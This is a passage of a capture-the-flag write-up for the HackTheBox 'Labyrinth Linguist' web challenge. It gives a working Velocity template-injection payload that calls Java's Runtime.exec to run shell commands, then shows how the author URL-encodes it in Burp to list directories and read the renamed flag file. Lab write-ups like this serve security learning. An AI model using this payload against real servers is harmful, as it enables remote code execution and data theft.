#set($output="")
#set($string=$engine.getClass().forName("java.lang.String"))
#foreach($i in [1..$istr.available()])
#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))
#end$output


# One Liner Payload
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

So i took the payload which will run the command `ls -al`, put it in Burp and URL encode it using "CTRL+U" shortcut, then execute my request.

<p align="center">
	
</p>

And it work! We listed successfully the files and directory in our current path. Now i go back to the source code to see where is located our flag.

```bash
# We are in
/web_labyrinth_linguist/challenge/
# Our flag is located at
/web_labyrinth_linguist/flag.txt
```

But we cant read the flag, why? To know this, we need to go back on source code again.

Reading `entry_point.sh` file, we can see that the flag is renamed to a random strings.

```bash
# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

So we only need to list directory and files in the previous folder using `ls -la ../` to find the correct name before attempting to read it.

As the payload is already URL encoded, i just replace the command and replace space with `+`,  like this `ls+-la+../` finally i send the request.

<p align="center">
	
</p>

Great, i've found the correct name of the flag file which is `flag26df64a005.txt`.

Now i use the command `cat ../flag26df64a005.txt` and of course use `+` instead of space to get it URL encoded `cat+../flag26df64a005.txt`. Finally i send my request.

<p align="center">
	
</p>

And i got the flag!

**Flag : HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}**


## Credits<a name="Credits"></a>

Special thanks to :

- HackTheBox Staff! For organizing this CTF, which was really amazing.
- HackTheBox Support! To being fast and efficient.
- My team mate R0stM, who try harded for the whole 5 days with me! What a fun ride!

Also WELCOME to our new beginner member :

- Zell! Be ready to get a lot of fun and growth together! 

And of course... 

**Thanks to all my team mate [Godzillhack!](https://godzillhack.com)**
